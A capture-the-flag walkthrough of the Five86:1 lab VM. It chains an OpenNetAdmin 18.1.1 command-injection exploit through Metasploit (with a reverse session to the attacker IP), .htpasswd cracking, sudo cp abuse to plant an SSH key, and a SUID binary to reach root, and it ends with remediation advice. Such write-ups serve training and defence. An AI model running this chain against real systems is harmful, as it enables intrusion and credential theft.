



# Five86: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.126 |
| **Attacker IP** | 192.168.0.132 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/five861-vulnhub-walkthrough/) |

## Attack Summary

Five86:1 chains a remote code execution vulnerability in OpenNetAdmin 18.1.1 with multiple lateral-movement steps through three user accounts before reaching root via a custom SUID binary. The path is: `www-data` (via ONA RCE) → `douglas` (cracked .htpasswd password) → `jen` (sudo cp abuse to plant SSH key) → `moss` (mail-disclosed password) → `root` (SUID game binary).

## Methodology

1. Recon — port scan and robots.txt discovery
2. Enumeration — OpenNetAdmin version fingerprint, .htpasswd discovery
3. Exploitation — OpenNetAdmin command injection (EDB-47772)
4. PrivEsc — crunch wordlist, sudo cp, SSH key abuse, SUID binary

---

## Step 1: Reconnaissance

```bash
netdiscover -r 192.168.0.0/24
nmap -sV -sC -p- 192.168.0.126
```


Open port: **80/tcp (HTTP)**.

Check robots.txt to discover hidden paths:

```bash
curl http://192.168.0.126/robots.txt
```

Output shows `Disallow: /ona` — this is the OpenNetAdmin installation.

---

## Step 2: Enumeration

Browse to `http://192.168.0.126/ona`. The application identifies itself as **OpenNetAdmin 18.1.1**.



Search for known exploits:

```bash
searchsploit opennetadmin
# EDB-47772: OpenNetAdmin 18.1.1 — Remote Code Execution (Metasploit)
```

---

## Step 3: Exploitation — OpenNetAdmin RCE

Copy the Metasploit module and load it:

```bash
# Copy Ruby module to framework path then reload
cp 47772.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/
msfconsole -q
msf> reload_all
msf> use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf> set rhosts 192.168.0.126
msf> set lhost 192.168.0.132
msf> exploit
```

Result: Meterpreter session as `www-data`.



---

## Step 4: Credential Discovery

From the Meterpreter session, look for web credentials:

```bash
cat /var/www/html/reports/.htaccess
# AuthUserFile /var/www/.htpasswd

cat /var/www/.htpasswd
# douglas:$apr1$...  (Apache MD5 hash)
# Note in file: "password is 10 chars made from: aefhrt"
```

Generate a targeted wordlist with crunch and crack the hash:

```bash
crunch 10 10 aefhrt > /root/dict.txt
john --wordlist=/root/dict.txt /root/hash
# Result: fatherrrrr  (douglas)
```

---

## Step 5: Privilege Escalation — douglas to jen (sudo cp abuse)

SSH in as douglas and check sudo rights:

```bash
ssh douglas@192.168.0.126
# Password: fatherrrrr
sudo -l
# (jen) NOPASSWD: /bin/cp
```

Generate an SSH key pair on the attacker machine and plant the public key into jen's authorized_keys:

```bash
ssh-keygen -t rsa -f /root/.ssh/id_rsa_five86 -N ""
cp /root/.ssh/id_rsa_five86.pub /tmp/authorized_keys
chmod 777 /tmp/authorized_keys
sudo -u jen /bin/cp /tmp/authorized_keys /home/jen/.ssh/authorized_keys
```


Copy the private key and log in as jen:

```bash
cp /root/.ssh/id_rsa_five86 /tmp/
chmod 600 /tmp/id_rsa_five86
ssh -i /tmp/id_rsa_five86 jen@127.0.0.1
```

---

## Step 6: Privilege Escalation — jen to moss (mail disclosure)

The SSH login banner says jen has new mail:

```bash
cat /var/mail/jen
# From: moss
# Message contains moss's account password
su - moss
# Enter password from mail
```

---

## Step 7: Privilege Escalation — moss to root (SUID binary)

Search for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
# /home/moss/.game/upyourgame  <-- custom SUID binary
```

Run the game binary and answer its prompts to obtain a root shell:

```bash
cd /home/moss/.game
./upyourgame
# Answer YES/NO questions as prompted
# Shell drops to uid=0 (root)
```

Read the root flag:

```bash
cat /root/flag.txt
```



---

## Lessons Learned

- `robots.txt` can expose internal applications that should not be public.
- Application version disclosure (ONA version banner) directly mapped to a known RCE exploit.
- Credential hints in comments inside `.htpasswd` drastically reduce cracking search space — always review the file's content, not just the hash.
- `sudo` rights for file-copy utilities (`cp`, `tee`, `install`) are as dangerous as shell sudo since they allow overwriting arbitrary files.
- Inter-user mail disclosure is a real lateral-movement vector on multi-user Linux systems.
- Custom SUID binaries with interactive prompts should be analysed for privilege-dropping bugs.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| OpenNetAdmin 18.1.1 RCE | Upgrade to a patched version or remove the application |
| .htpasswd password hints in file | Never embed wordlist hints in credential files |
| Weak password (crunchable in seconds) | Enforce strong, random passwords |
| sudo cp for unprivileged user | Remove or restrict the sudo rule; use dedicated key-management tooling |
| Mail containing plaintext passwords | Use out-of-band secure channels for credential sharing |
| Custom SUID binary | Audit all SUID binaries; remove the bit if root escalation is unintended |
